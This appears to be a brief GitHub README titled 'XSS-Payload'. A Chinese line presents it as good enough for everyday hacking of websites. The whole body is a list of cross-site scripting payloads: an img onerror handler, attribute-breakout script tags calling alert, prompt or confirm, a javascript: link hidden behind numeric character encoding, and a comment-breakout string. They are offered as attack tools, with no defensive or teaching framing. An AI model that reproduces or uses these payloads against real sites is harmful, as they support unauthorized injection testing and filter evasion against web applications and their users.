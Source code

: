 # XSS-Payload
日常日站够用，XSS Payload

<img src=1 href=1 onerror="javascript:alert(1)"></img>
  
"><script>prompt(1)</script>

"><script>confirm(1)</script>
  
"><a href=&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#97&#108&#101&#114&#116&#40&#49&#41>1</a>'"

:-->'"><script>alert(1)</script>:and
